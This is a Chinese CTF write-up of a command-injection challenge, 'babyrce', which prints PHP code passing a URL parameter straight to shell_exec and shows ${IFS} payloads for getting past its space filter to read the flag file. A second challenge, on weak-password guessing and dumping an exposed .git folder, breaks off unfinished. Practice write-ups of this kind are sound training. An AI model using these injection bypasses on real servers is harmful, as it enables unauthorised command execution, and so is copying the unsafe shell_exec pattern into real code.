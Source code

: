 ### [SWPUCTF 2021 新生赛]babyrce

![image-20230228185051813](C:\Users\Scofield_Lee\AppData\Roaming\Typora\typora-user-images\image-20230228185051813.png)

根据题目提示推测，应该跟cookie有关
抓包修改cookie的值，发包后发现新站点：

![image-20230228185550733](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228185550733.png)

```
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> nonono
```

​	从代码层面来看，屏蔽了空格（ ），所以要采取手段来绕过对空格的屏蔽，如果传入的url值不包含空格，则通过函数 **$a = shell_exec($ip);**进行远程rce

> 在过滤了空格的系统中，以cat flag.txt为例，系统不允许我们输入空格或输入后被过滤。
>
> ${IFS}
>
> 可使用${IFS}代替空格。
>
> cat${IFS}flag.txt
>
> cat$IFS$1flag.txt
>
> cat${IFS}$1flag.txt

![image-20230228190745205](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228190745205.png)

先查看根目录，发现疑似文件
随后使用tac或cat读取文件，得到flag
![image-20230228190903485](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228190903485.png)

### [第五空间 2021]WebFTP

![image-20230228193747945](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230228193747945.png)

​	F12发现用户名为admin，尝试爆破弱口令，可惜没爆破出来，扫描网站后台，发现有.git文件，使用githacker进行扒取，这里复习一下githacker的用法，功能上是比githack要强大的。
​	进入到Githacker文件夹执行`__init__.py`格式如下：
